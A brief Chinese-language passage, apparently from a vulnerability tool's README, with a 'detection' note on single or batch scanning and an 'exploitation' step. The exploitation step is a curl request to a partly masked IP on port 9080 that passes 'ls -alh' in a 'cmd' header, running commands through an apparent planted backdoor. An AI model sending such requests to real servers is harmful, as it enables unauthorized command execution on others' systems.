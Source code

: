 ### 检测
工具支持单目标或批量检测，具体用法见工具

### 利用
注意：利用时的端口号不再是9000，而是9080
curl http://114.67.xx.xx:9080/4ra7NZ -H "cmd: ls -alh"